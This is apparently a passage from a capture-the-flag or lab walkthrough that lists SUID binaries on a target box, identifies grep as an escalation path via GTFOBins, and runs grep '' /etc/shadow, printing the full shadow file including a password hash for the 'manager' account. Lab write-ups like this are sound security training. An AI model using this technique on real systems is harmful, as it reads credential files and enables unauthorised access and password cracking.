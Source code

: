 ```
/snap/core/4486/usr/bin/chsh
/snap/core/4486/usr/bin/gpasswd
/snap/core/4486/usr/bin/newgrp
/snap/core/4486/usr/bin/passwd
/snap/core/4486/usr/bin/sudo
/snap/core/4486/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/4486/usr/lib/openssh/ssh-keysign
/snap/core/4486/usr/lib/snapd/snap-confine
/snap/core/4486/usr/sbin/pppd

looking through gtofbins there's grep SUID
https://gtfobins.github.io/#+suid
```

Which SUID binary has a way to escalate your privileges on the box?
*grep*

```
manager@py:~/Desktop$ grep '' /etc/shadow
grep '' /etc/shadow
root:!:18362:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
uuidd:*:17647:0:99999:7:::
avahi-autoipd:*:17647:0:99999:7:::
usbmux:*:17647:0:99999:7:::
dnsmasq:*:17647:0:99999:7:::
rtkit:*:17647:0:99999:7:::
speech-dispatcher:!:17647:0:99999:7:::
whoopsie:*:17647:0:99999:7:::
kernoops:*:17647:0:99999:7:::
saned:*:17647:0:99999:7:::
pulse:*:17647:0:99999:7:::
avahi:*:17647:0:99999:7:::
colord:*:17647:0:99999:7:::
hplip:*:17647:0:99999:7:::
geoclue:*:17647:0:99999:7:::
gnome-initial-setup:*:17647:0:99999:7:::
gdm:*:17647:0:99999:7:::
sshd:*:18362:0:99999:7:::
manager:$6$IL0a.UKt$nDPWg8EX0UKMZGJFITqSI48dmcnzww/5VgEnQHPlebWv6hoDWIg/D.qbdeewqnEYHdC.zcGduh3gG4aHb3A7m0:18478:0:99999:7:::

```
